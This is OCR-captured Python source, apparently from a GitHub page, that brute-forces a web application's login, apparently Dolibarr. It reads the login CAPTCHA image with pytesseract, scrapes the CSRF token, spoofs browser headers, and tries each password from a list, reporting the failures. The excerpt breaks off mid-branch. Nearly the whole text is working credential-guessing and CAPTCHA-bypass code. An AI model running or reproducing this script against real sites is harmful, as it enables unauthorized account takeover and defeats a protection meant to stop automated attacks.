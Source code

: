 ```python
def get_captcha_code(base_url):
    code = ""
    while len(code) != 5:
        r = session.get(f"{base_url}core/antispamimage.php", verify=False)
        img = Image.open(BytesIO(r.content))
        #img.show()
        code = pytesseract.image_to_string(img).split("\n")[0]
        for char in code:
            if char not in "aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679":
                code = ""
                break
    return code



for password in passwords:
    a = 1
    while(a==1):
    
        session = requests.Session()
        request = session.get(login_url)

        captcha = get_captcha_code(base_url)

        # Get the token value
        page_source = BeautifulSoup(request.text,"lxml")
        token = page_source.find("input",{'name':'token'})['value']
        
        cookies = session.cookies

        headers["Connection"] = "keep-alive"
        headers["Cache-Control"] = "max-age=0"
        headers["Upgrade-Insecure-Requests"] = "1"
        headers["Origin"] = base_url
        headers["Content-Type"] = "application/x-www-form-urlencoded"
        headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36"
        headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
        headers["Referer"] = base_url + "index.php?mainmenu=home"
        headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

        # you can use json object or f string format
        data = "token=" + str(urllib.parse.quote(token,safe='')) + "&actionlogin=login&loginfunction=loginfunction&tz=1&tz_string=Africa%2FCasablanca&dst_observed=0&dst_first=2022-05-8T01%3A59%3A00Z&dst_second=2022-03-27T02%3A59%3A00Z&screenwidth=1038&screenheight=718&dol_hide_topmenu=&dol_hide_leftmenu=&dol_optimize_smallscreen=&dol_no_mouse_hover=&dol_use_jmobile=&username=" + str(username) + "&password=" + str(password[:-1]) + "&code=" + str(captcha)

        resp = session.post(login_url, headers=headers, data=data, cookies=cookies, allow_redirects=False) 

        login = BeautifulSoup(resp.text,"lxml")

        error_message = login.find("div",{'class':'error'})

        #print(str(resp.status_code) + " " + password[:-1])
        
        if error_message != None :
            if(error_message.text.strip() == "Bad value for login or password"):
                print(f"[!] [{resp.status_code}] Wrong login {username}:{password[:-1]}")
                a = 0
            else:
```